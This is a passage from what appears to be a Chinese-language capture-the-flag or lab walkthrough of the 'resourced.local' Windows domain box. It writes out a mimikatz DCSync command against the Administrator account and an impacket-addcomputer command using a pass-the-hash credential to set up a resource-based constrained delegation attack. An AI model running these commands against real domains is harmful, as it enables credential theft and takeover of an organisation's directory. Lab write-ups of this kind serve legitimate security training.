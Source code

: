 ![image-20250308134727740](./PG_win.assets/image-20250308134727740.png)

上传mimikatz，但是在evil-winrm不能直接使用，会死循环，带上exit

```
.\mimikatz.exe 'lsadump::dcsync /domain:resourced.local /user:Administrator' 'exit'
```

失败了，看了hints，利用的是**资源约束委派（RBCD）攻击**

~~首先上传Powermad.ps1，导入模块添加用户~~

换一种方法先添加用户：cyb0rg/123@Abc

```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.118.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'cyb0rg$' -computer-pass '123@Abc'
```

![image-20250308154110510](./PG_win.assets/image-20250308154110510.png)

使用 getST.py 为 resourcedc 检索服务票证
